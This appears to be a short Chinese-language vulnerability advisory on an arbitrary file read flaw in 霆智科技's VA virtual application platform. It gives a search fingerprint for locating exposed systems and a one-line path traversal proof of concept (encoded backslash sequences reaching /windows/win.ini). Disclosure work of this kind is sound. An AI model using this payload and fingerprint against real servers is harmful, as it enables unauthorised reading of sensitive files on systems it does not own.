 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

<a-checkbox checked>霆智科技 VA虚拟应用平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="EAA益和应用接入系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683073057116-3fcea542-7aec-4fde-9ad1-ba4ec639c17e.png)

验证POC

```python
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683073234358-a1e4cecc-48c7-4509-b2cb-70d0bfaa9fc6.png)